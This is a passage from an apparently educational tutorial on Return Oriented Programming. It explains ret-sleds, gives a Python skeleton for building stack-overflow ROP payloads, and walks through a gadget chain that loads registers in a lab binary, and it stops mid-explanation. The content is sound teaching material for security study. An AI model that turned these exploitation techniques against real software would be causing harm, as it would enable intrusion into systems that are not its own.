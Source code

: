 Any and all of these addresses will be ok. The payload could be the following:
```
RET + 0x00:   0x80482dd
RET + 0x04:   0x80482dd
RET + 0x08:   0x80482dd
RET + 0x0c:   0x80482dd
RET + 0x10:   0x80482dd
[...]
```
The above payload will run like so: the original `ret` (in the normal code flow)
will pop `RET+0x00` off the stack and jump to it. When `RET+0x00` gets popped,
the stack is automatically increased by 4 (on to the next value). The
instruction at `0x80482dd` is another `ret`, which does the same thing as before.
This goes on until another address that is not a `ret` is popped off the stack. 

In general, you can use the skeleton below to generate payloads:
```python
#! /usr/bin/python3
import struct, sys

def dw(i):
	return struct.pack("<I", i)

#TODO update count for your prog
pad_count_to_ret = 1
payload = b"X" * pad_count_to_ret

#TODO figure out the rop chain
payload += dw(0xcafebeef)
payload += dw(0xdeadc0de)

sys.stdout.write(payload.decode('ascii', 'replace'))
```


## Gadgets and ROP Chains
### Code Execution
Now that we've understood the basics of Return Oriented Programming, let's
actually do something useful. The building blocks of ROP payloads are called
**gadgets**. These are blocks of instructions that end with a `ret` instruction.
Here are some *gadgets* from the previous program:
```
0x8048443: pop ebp; ret
0x80484a7: pop edi; pop ebp; ret
0x8048441: mov ebp,esp; pop ebp; ret
0x80482da: pop eax; pop ebx; leave; ret
0x80484c3: pop ecx; pop ebx; leave; ret
```

By carefully placing addresses to such gadgets on the stack we can bring code
execution to almost any context we want. As an example, let's say we would like
to load `0x41424344` into `eax` and `0x61626364` into `ebx`. The payload should
look like this: 
```
RET + 0x00:   0x80482da  (pop eax; pop ebx; leave; ret)
RET + 0x04:   0x41424344
RET + 0x08:   0x61626364
RET + 0x0c:   0xAABBCCDD (instruction were the gadget's ret will jump to)
```
Let's see what exactly happens when this payload is given to our binary:
- First the ret addr is popped from the stack and execution goes there.
- At `pop eax`, `0x41424344` is loaded into `eax` and the stack is increased.
- At `pop ebx`, `0x61626364` is loaded into `ebx` and the stack is increased
again.
- At `leave`, two things actually happen: `mov esp, ebp; pop ebp`. So the stack